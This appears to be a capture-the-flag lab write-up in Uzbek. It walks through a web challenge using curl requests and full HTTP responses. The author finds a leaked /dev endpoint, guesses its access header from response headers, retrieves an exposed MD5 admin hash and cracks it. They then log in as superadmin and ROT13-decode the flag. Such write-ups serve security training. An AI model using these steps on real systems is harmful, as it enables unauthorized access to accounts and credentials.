



```bash
GET /lab/32000/ HTTP/2 
Host: cybercorp.uz
Sec-Ch-Ua: "Not-A.Brand";v="24", "Chromium";v="146"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

HTTP/2 200 OK
Date: Wed, 29 Apr 2026 03:53:14 GMT
Content-Type: text/html; charset=utf-8
Server: cloudflare
X-Powered-By: DevCorp-Internal
X-Api-Build: DevCorp-2024
Referrer-Policy: strict-origin-when-cross-origin
Permissions-Policy: camera=(), microphone=(), geolocation=()
Cross-Origin-Opener-Policy: same-origin
Cross-Origin-Embedder-Policy: unsafe-none
Cross-Origin-Resource-Policy: cross-origin
X-Permitted-Cross-Domain-Policies: none
X-Xss-Protection: 0
Strict-Transport-Security: max-age=31536000; includeSubDomains
Report-To: {"group":"cf-nel","max_age":604800,"endpoints":[{"url":"https://a.nel.cloudflare.com/report/v4?s=M6Gi4XC1qCC41A5PpjXjD7QIOo4fPFBJIs42MitN%2B%2BrqOytW4LDyTWeW9hrGNs4BkwAMQNVC6wu%2B5OVTEOFyf1PtgyGfGdbOj7eGvrryHQut%2BPtm6Lk5o3zmSOfeGtA%3D"}]}
Cf-Cache-Status: DYNAMIC
Vary: accept-encoding
Nel: {"report_to":"cf-nel","success_fraction":0.0,"max_age":604800}
Server-Timing: cfCacheStatus;desc="DYNAMIC"
Server-Timing: cfEdge;dur=5,cfOrigin;dur=90
Cf-Ray: 9f3b5bcb98b8eeb1-WAW
Alt-Svc: h3=":443"; ma=86400
```

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>DevCorp — Internal Portal</title>
  <style>
    * { margin: 0; padding: 0; box-sizing: border-box; }
    body { background: #0a0a0f; color: #c8d6e5; font-family: 'Courier New', monospace;
      display: flex; flex-direction: column; align-items: center;
      justify-content: center; min-height: 100vh; gap: 16px; }
    h1 { color: #00d4ff; font-size: 2rem; letter-spacing: 4px; }
    .box { border: 1px solid #1a2a3a; padding: 32px 48px; text-align: center; background: #0d1117; }
  </style>
</head>
<body>
  <div class="box">
    <h1>[ DEVCORP ]</h1>
    <p style="margin:12px 0;">Internal Employee Portal — Authorized Access Only</p>
    <p style="color:#334;font-size:0.75rem;margin-top:20px;">System operational. All access attempts are logged.</p>
  </div>
  <!-- TODO: disable the /dev endpoint before going to production! it still exposes sensitive config -->
<script defer src="https://static.cloudflareinsights.com/beacon.min.js/v8c78df7c7c0f484497ecbca7046644da1771523124516" integrity="sha512-8DS7rgIrAmghBFwoOTujcf6D9rXvH8xm8JQ1Ja01h9QX8EzXldiszufYa4IFfKdLUKTTrnSFXLDkUEOTrZQ8Qg==" data-cf-beacon='{"version":"2024.11.0","token":"b8c908f0f0404130bb9d2b8a3908b246","r":1,"server_timing":{"name":{"cfCacheStatus":true,"cfEdge":true,"cfExtPri":true,"cfL4":true,"cfOrigin":true,"cfSpeedBrain":true},"location_startswith":null}}' crossorigin="anonymous"></script>
</body>
</html>
```

Source kodidan ko'rsak bu yerda endpoint bor ekan: 

```html
<!-- TODO: disable the /dev endpoint before going to production! it still exposes sensitive config -->
```

Va birinchi `/dev` ga so'rov yubordim:

```bash 
└─$ curl -i https://cybercorp.uz/lab/32000/dev
HTTP/2 401 
date: Wed, 29 Apr 2026 03:57:05 GMT
content-type: application/json
content-length: 71
server: cloudflare
x-auth-header: X-Dev-Access
referrer-policy: strict-origin-when-cross-origin
permissions-policy: camera=(), microphone=(), geolocation=()
cross-origin-opener-policy: same-origin
cross-origin-embedder-policy: unsafe-none
cross-origin-resource-policy: cross-origin
x-permitted-cross-domain-policies: none
x-xss-protection: 0
strict-transport-security: max-age=31536000; includeSubDomains
cf-cache-status: DYNAMIC
nel: {"report_to":"cf-nel","success_fraction":0.0,"max_age":604800}
report-to: {"group":"cf-nel","max_age":604800,"endpoints":[{"url":"https://a.nel.cloudflare.com/report/v4?s=JvJqFfZ2LX4LE0VcfmHwOfQu9nYl7z4%2Fkw0ogyWwpXlVGvvYODmwV2UuBsz63ZDxep5w36C2KCO8OfaCDkL8XkajTcE24DlhNIMMvz%2BfgQ10XPYlS8eh%2FBhdrRBJw80%3D"}]}
cf-ray: 9f3b616a4cbeeec9-WAW
alt-svc: h3=":443"; ma=86400

{"error":"Missing access key","hint":"Authentication header required"}
```

 **Kerakli headerni so'rovdan topib oldim:**

```
x-auth-header: X-Dev-Access
```

**Header value — oldingi response headerlaridan taxmin qilib topdim**

```
X-Api-Build: DevCorp-2024
X-Powered-By: DevCorp-Internal
```

**Header value bilan so'rov yubordim va o'xshadi:**

```bash
└─$ curl -i https://cybercorp.uz/lab/32000/dev -H "X-Dev-Access: DevCorp-2024"
HTTP/2 200 
date: Wed, 29 Apr 2026 04:01:11 GMT
content-type: application/json
content-length: 131
server: cloudflare
referrer-policy: strict-origin-when-cross-origin
permissions-policy: camera=(), microphone=(), geolocation=()
cross-origin-opener-policy: same-origin
cross-origin-embedder-policy: unsafe-none
cross-origin-resource-policy: cross-origin
x-permitted-cross-domain-policies: none
x-xss-protection: 0
strict-transport-security: max-age=31536000; includeSubDomains
cf-cache-status: DYNAMIC
nel: {"report_to":"cf-nel","success_fraction":0.0,"max_age":604800}
report-to: {"group":"cf-nel","max_age":604800,"endpoints":[{"url":"https://a.nel.cloudflare.com/report/v4?s=WzVHDMc7C2p5%2Fp0WDVQH5KWMvCTBq1coXc%2BlCOGCwzrEVYmlt%2BsOUzVJd10O0XHkhzDumncnEPg6juIDcU52X1w9vqkekqywNbfRiHmCxFraRMh1k%2B0Q9%2Fa2nCyPPs4%3D"}]}
cf-ray: 9f3b676cae060dab-WAW
alt-svc: h3=":443"; ma=86400

{"endpoints":["/dev/config"],"note":"Config endpoint contains deployment credentials","status":"authenticated","user":"developer"} 
```

`/dev/config` da `credentials` borligini noteda yozib o'tilgan va bunga ham so'rov yubordim:

```bash
─$ curl -i https://cybercorp.uz/lab/32000/dev/config -H "X-Dev-Access: DevCorp-2024"
HTTP/2 200 
date: Wed, 29 Apr 2026 04:01:38 GMT
content-type: application/json
content-length: 198
server: cloudflare
referrer-policy: strict-origin-when-cross-origin
permissions-policy: camera=(), microphone=(), geolocation=()
cross-origin-opener-policy: same-origin
cross-origin-embedder-policy: unsafe-none
cross-origin-resource-policy: cross-origin
x-permitted-cross-domain-policies: none
x-xss-protection: 0
strict-transport-security: max-age=31536000; includeSubDomains
cf-cache-status: DYNAMIC
nel: {"report_to":"cf-nel","success_fraction":0.0,"max_age":604800}
report-to: {"group":"cf-nel","max_age":604800,"endpoints":[{"url":"https://a.nel.cloudflare.com/report/v4?s=aSrLrhy2EWzW9MS0W9xUg2D5uqMZDnhth0SsXKH1V2oihxw8FIonazE9wKu2PVfLgcwCSRCVEK0HwZxHU1xAOSNrPT77jgM%2F%2BFSVEoxz05UAXeZOnzDjDYkTdkDTWhs%3D"}]}
cf-ray: 9f3b68150ab098d0-WAW
alt-svc: h3=":443"; ma=86400

{"admin":{"hash_type":"md5","pass_hash":"5f4dcc3b5aa765d61d8327deb882cf99","username":"superadmin"},"database":{"host":"db.devcorp.internal","name":"prod_db","port":5432},"login_endpoint":"/login"}

```

Hashni [CrackStation](https://crackstation.net/) orqali topdim.

> username -> superadmin
> parol -> `5f4dcc3b5aa765d61d8327deb882cf99 = password`

```bash
└─$ curl -i -X POST https://cybercorp.uz/lab/32000/login \
-H "Content-Type: application/json" \
-d '{"username":"superadmin","password":"password"}'
HTTP/2 200 
date: Wed, 29 Apr 2026 09:45:14 GMT
content-type: application/json
content-length: 129
server: cloudflare
referrer-policy: strict-origin-when-cross-origin
permissions-policy: camera=(), microphone=(), geolocation=()
cross-origin-opener-policy: same-origin
cross-origin-embedder-policy: unsafe-none
cross-origin-resource-policy: cross-origin
x-permitted-cross-domain-policies: none
x-xss-protection: 0
strict-transport-security: max-age=31536000; includeSubDomains
cf-cache-status: DYNAMIC
nel: {"report_to":"cf-nel","success_fraction":0.0,"max_age":604800}
report-to: {"group":"cf-nel","max_age":604800,"endpoints":[{"url":"https://a.nel.cloudflare.com/report/v4?s=1y3fI8TeO%2F7%2FqoU%2BxX0h2BZN2mYoEJUJU7i0lChJurpo47fbZgfdk7P4l2vBMfjCjFdBxyNxlaOiKuaPaCPvAkQlfn7cdoac38slxYT%2BreO3zZcyqgT8Jm19JIBqze0%3D"}]}
cf-ray: 9f3d5f6a2d35558d-WAW
alt-svc: h3=":443"; ma=86400

{"data":"PLO{1OS705581P899RRQ062S}","message":"Welcome back, admin.","note":"Encoded for transport security","status":"success"}
```

`Flag` shifrlangan holda chiqdi va `Rot13` yordamida flagni deshifrlandi. 



> *CYB{1BF705581C899EED062F}*
